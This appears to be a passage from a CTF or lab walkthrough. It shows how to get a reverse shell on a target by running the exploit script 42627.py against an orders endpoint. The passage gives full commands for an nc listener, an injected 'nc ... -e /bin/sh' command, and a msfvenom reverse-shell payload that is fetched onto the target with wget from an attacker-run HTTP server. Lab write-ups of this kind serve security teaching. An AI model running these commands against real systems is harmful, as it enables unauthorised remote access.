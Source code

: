 === "re using nc"

	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 4444
	```

	Get reverse shell

	```bash
	python3 42627.py http://192.168.110.137/orders/3 'nc 192.168.110.131 4444 -e /bin/sh' > /dev/null
	```

	![7](img/7.png)

=== "msfvenom file"

	Create payload file with `msfvenom`

	``` bash
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.110.131 LPORT=4444 -f elf > shell.elf
	```

	Create a http server to transfer payload file.

	``` bash
	sudo python3 -m http.server 80
	```

	Download file shell.elf using `42627.py` and `wget`

	``` bash
	python3 42627.py http://192.168.110.137/orders/3 'wget http://192.168.110.131/shell.elf -O /tmp/shell'
	```

	![5](img/5.png)

